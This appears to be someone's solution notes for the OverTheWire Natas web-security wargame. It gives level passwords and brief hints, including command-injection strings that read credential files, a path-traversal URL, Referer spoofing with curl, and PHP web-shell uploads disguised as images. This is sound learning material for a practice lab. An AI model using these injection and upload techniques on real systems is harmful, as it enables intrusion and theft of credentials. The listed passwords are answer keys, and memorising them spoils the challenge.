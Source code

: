 * 1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

* 2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

go to URL/files
users.txt will have the password

* 3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

websites have URL/robots.txt so that google can find it
go to URL/s3cr3t

* 4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ


go to natas5 
copy the button in natas 4, inspect element and add it to natas5
click it

curl -e http://natas5.natas.labs.overthewire.org/ -u natas4 http://natas4.natas.labs.overthewire.org/index.php

dash e is referal. 

* 5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Cookies. curl -i -u natas5 http://natas5.natas.labs.overthewire.org/

document.cookie="loggedin=1"
look at the memory side of console 

* 6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

go to URL/includes/secret.inc
$_POST gets information through http headers. 
$_GET gets information through URLS

* 7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

* 8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

var_dump(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362"))));

* 9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

; cat /etc/natas_webpass/natas10; 
passthru will run bash code

* 10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

; = %3B
& = %26

passthru("grep -i $key dictionary.txt");

"-F '' /etc/natas_webpass/natas11" 

       -F, --fixed-strings
Interpret PATTERN as a list of fixed strings (instead of 
regular expressions), separated by newlines, any of which is to be 
matched.


       -E, --extended-regexp
  Interpret PATTERN as an extended regular expression (ERE, see below).


* 11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

You know you could've xor'ed the entire thing by itself

ciphertext = plaintext XOR key
ciphertext XOR plaintext = KEY bruhh

If i change 
$partialKey .= $text2[$i] ^ 'f';
into 
$partialKey .= $text1[$i] ^ '0';

it still works.

w8Jqw8
is the output. So

qw8J is the XOR key!! Any cyclic permutation of Jqw8

* 12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Inspect element. Change the filename to .php on the hidden. Inject a php
file in there , passthru() and cat the webpass

* 13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

get an image file, in the bottom write php code, and put it in the website

* 14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1


